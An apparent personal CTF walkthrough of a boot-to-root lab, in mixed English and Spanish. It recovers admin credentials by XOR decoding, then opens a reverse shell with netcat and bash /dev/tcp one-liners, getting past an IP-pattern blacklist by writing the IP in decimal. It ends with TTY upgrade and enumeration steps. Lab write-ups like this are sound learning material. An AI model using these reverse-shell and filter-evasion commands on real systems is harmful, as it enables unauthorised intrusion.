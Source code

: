 
we have an user called

terra

and in another folder the encryption key

we must login in

http://terratest.earth.local/admin/

decoding it from xorg, the key is this

earthclimatechangebad4humans

so user:
terra 
password:
earthclimatechangebad4humans

xor no es muy bueno, si tienes dos componentes puedes encontrar el tercero

This page is "secured", he said this when he put ls -l 

and he puts which nc, and it returned the route of netcat

so.. if we listen on a terminal an then we put

nc -e /bin/bash (my ip) (port)

and "remote conections are forbidden"


(averiguar sobre stdr and stdout)
stdr se transforma en stdout con 2>&1 y podemos ver los errores..

there is a "blacklist" or something that impides us to use patterns like an ip

so we cannot do the classic shell, for the pattern but if we transform the ip to decimal, we can 

google ip to decimal converter

bash -i >& /dev/tcp/3232261124
/443 0>&1

on this way we have the shell , because we are listening with netcat

now we need to do the treatment to the tty

script /dev/null -c bash

stty raw -echo ;fg

reset xterm
(DONT FORGET THE EXPORT)
export TERM=xterm

export SHELL=/bin/bash
(because now the value is no loggin)

I have no permision with "id" command

we must search something
```
bash-5.1$ find / -name admin 2>/dev/null
/usr/local/lib/python3.9/site-packages/django/contrib/admin
/usr/local/lib/python3.9/site-packages/django/contrib/admin/static/admin
/usr/local/lib/python3.9/site-packages/django/contrib/admin/static/admin/js/admin
/usr/local/lib/python3.9/site-packages/django/contrib/admin/templates/admin
/usr/local/lib/python3.9/site-packages/django/contrib/gis/admin
/usr/local/lib/python3.9/site-packages/django/contrib/gis/templates/gis/admin
```
this is not the folder... we need to find the httpd folder, an see how its the site mounted
